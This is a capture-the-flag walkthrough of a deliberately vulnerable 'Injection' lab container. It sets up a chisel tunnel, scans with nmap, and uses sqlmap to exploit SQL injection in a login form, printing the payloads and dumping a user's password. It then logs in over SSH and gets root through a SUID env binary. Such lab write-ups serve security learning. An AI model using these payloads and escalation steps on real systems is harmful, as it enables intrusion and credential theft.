


# Injection

:::info

Autor: El Pingüino de Mario

Dificultad: VERY EASY

Fecha de creación: 09/04/2024

:::

## Deploy

```shell
randark@developer:~$ unzip injection.zip
Archive:  injection.zip
  inflating: injection.tar
  inflating: auto_deploy.sh
randark@developer:~$ docker load -i injection.tar
5498e8c22f69: Loading layer [==================================================>]  80.41MB/80.41MB
4c31ed5750c1: Loading layer [==================================================>]  605.2MB/605.2MB
93090e616697: Loading layer [==================================================>]  127.1MB/127.1MB
Loaded image: injection:latest
randark@developer:~$ docker run -d --name injection injection:latest
bf3225d3d173283b558133d4f8b87093611a4cbe7be9269b6b3e2f2d4563fc55
randark@developer:~$ docker inspect injection | jq ".[0].NetworkSettings.Networks"
{
  "bridge": {
    "IPAMConfig": null,
    "Links": null,
    "Aliases": null,
    "MacAddress": "02:42:ac:11:00:02",
    "DriverOpts": null,
    "NetworkID": "9d2490a4389002f4858a8c1d1da879e98d0132d8ac103765241ea802bcbd9616",
    "EndpointID": "4006f6c3718aaaf563c7e9fa66decf3e93d8bb5f30102cc535e20544d006251d",
    "Gateway": "172.17.0.1",
    "IPAddress": "172.17.0.2",
    "IPPrefixLen": 16,
    "IPv6Gateway": "",
    "GlobalIPv6Address": "",
    "GlobalIPv6PrefixLen": 0,
    "DNSNames": null
  }
}
```

## Proxy

```shell
# kali
┌──(randark ㉿ kali)-[~]
└─$ ./tools/chisel-v1.9.1/chisel_1.9.1_linux_amd64 server -p 1337 --reverse
2025/02/04 10:49:17 server: Reverse tunnelling enabled
2025/02/04 10:49:17 server: Fingerprint q3/8kQMIwwgOCvVs7Y3CrufcDiEJQhGOvg+mOarjovM=
2025/02/04 10:49:17 server: Listening on http://0.0.0.0:1337

# Ubuntu
randark@developer:~$ ./tools/chisel-v1.9.1/chisel_1.9.1_linux_amd64 client 192.168.200.128:1337 R:0.0.0.0:10000:socks
2025/02/04 02:50:47 client: Connecting to ws://192.168.200.128:1337
2025/02/04 02:50:47 client: Connected (Latency 1.568628ms)
```

## Scan

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q nmap --min-rate=2000 -A -p- 172.17.0.2
Starting Nmap 7.94SVN (https://nmap.org) at 2025-02-04 10:53 CST
Nmap scan report for 172.17.0.2
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80 sql injection



try to use sqlmap

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q sqlmap -u http://172.17.0.2/ --forms
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:05:14 /2025-02-04/

[12:05:14] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=33i2qtnvmor...l2urv9tkj4'). Do you want to use those [Y/n] n
[12:05:16] [INFO] searching for forms
[1/1] Form:
POST http://172.17.0.2/index.php
POST data: name=&password=&submit=
do you want to test this form? [Y/n/q]
> y
Edit POST data [default: name=&password=&submit=] (Warning: blank fields detected):

do you want to fill blank fields with random values? [Y/n] y
[12:05:22] [INFO] using '/home/randark/.local/share/sqlmap/output/results-02042025_1205pm.csv' as the CSV results file in multiple targets mode
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] n
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=ho1bkndnhvv...9d3787tpml'). Do you want to use those [Y/n] n
[12:05:28] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:05:28] [INFO] testing if the target URL content is stable
[12:05:28] [WARNING] POST parameter 'name' does not appear to be dynamic
[12:05:28] [INFO] heuristic (basic) test shows that POST parameter 'name' might be injectable (possible DBMS: 'MySQL')
[12:05:29] [INFO] heuristic (XSS) test shows that POST parameter 'name' might be vulnerable to cross-site scripting (XSS) attacks
[12:05:29] [INFO] testing for SQL injection on POST parameter 'name'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[12:05:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:05:35] [WARNING] reflective value(s) found and filtering out
[12:05:35] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:05:35] [INFO] testing 'Generic inline queries'
[12:05:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:05:37] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:05:37] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:05:37] [INFO] POST parameter 'name' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="Wrong Credentials")
[12:05:37] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:05:37] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:05:37] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:05:37] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:05:37] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:05:37] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:05:37] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:05:37] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:05:37] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:05:37] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:05:37] [INFO] POST parameter 'name' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[12:05:37] [INFO] testing 'MySQL inline queries'
[12:05:37] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:05:47] [INFO] POST parameter 'name' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable
[12:05:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:05:57] [INFO] POST parameter 'name' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[12:05:57] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:05:57] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:05:57] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:05:57] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:05:57] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[12:08:14] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[12:08:14] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag'T'in option'--technique'(e.g.'--flush-session --technique=BEUS') or try to lower the value of option'--time-sec'(e.g.'--time-sec=2')
[12:08:14] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[12:08:14] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[12:08:14] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[12:08:15] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[12:08:15] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[12:08:15] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[12:08:15] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[12:08:15] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[12:08:16] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[12:08:16] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[12:08:16] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 341 HTTP(s) requests:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: name=DqPM' OR NOT 1004=1004#&password=cseW&submit=OgMg

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=DqPM' OR (SELECT 5742 FROM(SELECT COUNT(*),CONCAT(0x71716b7671,(SELECT (ELT(5742=5742,1))),0x716b6a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tQVE&password=cseW&submit=OgMg

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=DqPM';SELECT SLEEP(5)#&password=cseW&submit=OgMg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=DqPM' AND (SELECT 4339 FROM (SELECT(SLEEP(5)))dkqT)-- JoKC&password=cseW&submit=OgMg
---
do you want to exploit this SQL injection? [Y/n] y
[12:08:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

try to automatic exploit

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q sqlmap -u http://172.17.0.2/ --forms --batch --dbs
......
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q sqlmap -u http://172.17.0.2/ --forms --batch -D register --tables
......
Database: register
[1 table]
+-------+
| users |
+-------+
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q sqlmap -u http://172.17.0.2/ --forms --batch -D register -T users --dump
......
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+
```



## Port 22 SSH

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q pwncat-cs dylan@172.17.0.2
......
(local) pwncat$ back
(remote) dylan@bf3225d3d173:/home/dylan$ whoami
dylan
```

try to get privilege

```shell
(remote) dylan@bf3225d3d173:/home/dylan$ find / -perm -4000 -user root 2>/dev/null
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

we can use `/usr/bin/env` to get root

```shell
(remote) dylan@bf3225d3d173:/home/dylan$ /usr/bin/env /bin/bash -p
(remote) root@bf3225d3d173:/home/dylan# whoami
root
```
